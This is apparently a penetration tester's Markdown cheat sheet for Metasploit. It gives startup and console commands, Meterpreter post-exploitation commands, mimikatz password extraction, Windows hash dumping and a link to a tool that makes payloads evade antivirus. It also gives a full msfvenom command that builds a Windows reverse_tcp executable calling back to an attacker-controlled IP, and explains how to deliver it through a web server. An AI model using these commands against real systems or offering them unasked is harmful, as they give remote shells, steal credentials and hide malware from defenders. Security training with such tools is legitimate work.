 # METASPLOIT

* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) - the ultimate guide to the Metasploit Framework
* [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion/) - generate metasploit payloads that bypass anti-virus solutions

Starting
--------
```
service postgresql start
msfdb init
msfconsole
```

Useful Metasploit Console Commands
----------------------------------
* [MSFconsole Core Commands](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)  
```
jobs
sessions -i 1
set session 1
```

Useful Meterpreter Commands
---------------------------
```
sysinfo
exit/quit
download/upload (use C:\\)
edit
getpid
geuid
ps
kill
execute
migrate
search -f network-secret.txt
shell
```
* Load mimikatz (needs SYSTEM privs; better migrate to 64bit process): `load mimikatz`, then use `msv`, `kerberos`, `wdigest` for extracting passwords.  
* Post-exploitation module: `run winenum` script.  
* Windows hashes: `run post/windows/gather/smart_hashdump`  

* [Web Delivery explained](https://www.offensive-security.com/metasploit-unleashed/web-delivery/) //tip: check if there's port added in the payload URL

msfvenom
--------

* [How to use msfvenom](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)

Typical Windows exe payload:

`msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe`  

As an example, the payload can be delivered via webserver. Then `use exploit/multihandler`, set appropriate payload, IPs, ports etc.
